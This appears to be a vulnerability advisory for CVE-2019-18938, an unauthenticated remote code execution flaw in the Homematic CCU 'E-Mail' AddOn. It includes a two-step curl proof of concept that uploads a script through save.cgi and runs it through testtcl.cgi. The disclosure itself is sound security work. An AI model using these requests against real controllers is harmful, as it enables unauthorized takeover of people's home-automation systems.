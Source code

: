 ```yaml
---
layout: post
title:  "CVE-2019-18938 eQ-3 Homematic AddOn 'E-Mail' version 1.6.8.c and prior on CCU2 and CCU3 allows Remote Code Execution by unauthenticated attackers with access to the web interface by usage of the save.cgi script for payload upload and the testtcl.cgi script for its execution"
date:   2019-11-14 19:15:00 MEST
author: 'psytester'
---
```




# Overview

- CVE: CVE-2019-18938
- Author: psytester
- Title: eQ-3 Homematic AddOn 'E-Mail' version 1.6.8.c and prior on CCU2 and CCU3 allows Remote Code Execution by unauthenticated attackers with access to the web interface by usage of the save.cgi script for payload upload and the testtcl.cgi script for its execution
- Vulnerability Type: CWE-284: Improper Access Control
-	CVSSv3 Base Score: 10.0
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
- Publishing Date: 14.11.2019
- Updated: --
- Vendor: eQ-3 AG for CCU Firmware is providing possibility to install AddOn software
- Product: Homematic CCU2 and CCU3
- Vendor eQ-3 contacted: 13.02.2019
- Vendor eQ-3 response on 11.04.2019 with "not responsible for AddOns"
- Addon itself:
  - Developer of 'E-Mail' AddOn contacted: 13.08.2019 as [issue #11](https://github.com/jens-maus/hm_email/issues/11)
  - Developer of 'E-Mail' AddOn confirmation: N.A.
  - 'E-Mail' AddOn patch: N.A.
  - Affected 'E-Mail' AddOn version: 1.6.8.c and prior

# Background

From [Github 'E-Mail' AddOn project page](https://github.com/jens-maus/hm_email):<br>
A HomeMatic/CCU Addon to send emails from a CCU system either by directly calling a script from the CCU WebUI programming interface or via CUxD devices being used within the CCU system.

From [eQ-3 vendor's website for CCU2](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [eQ-3 vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>

# Issue Description

While analyzing the CCU web interface based on given page files in file system path /www, this is another Improper Access Control resulting into Remote Code Execution vulnerability located in 'E-Mail' AddOn, if it's installed. This vulnerability can be exploited by unauthenticated attackers with access to the web interface.<br>

The following HTTP requests in Web Browser illustrates the attack vectors:

1. Upload the payload to CCU embedded in system.Exec() commands or if also the popular CUxD AddOn is installed, another RCE is possible by abuse of the virtual CUxD'CMD_EXEC' device:<br>
```
curl -X POST -i 'http://1.2.3.4/addons/email/save.cgi?userScript' --data '
load tclrega.so
array set values [rega_script {
var x=system.Exec("sleep 4;");
var x=system.Exec("/bin/touch /tmp/testfile1;");
var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile2");
}]'
```

2. Execute the payload by calling:<br>
```
curl -X GET -i 'http://1.2.3.4/addons/email/testtcl.cgi'
```

# CVE

[CVE-2019-18938](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18938)

# CVSSv3 Base Score

CVSSv3 Base Score: 10.0

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.

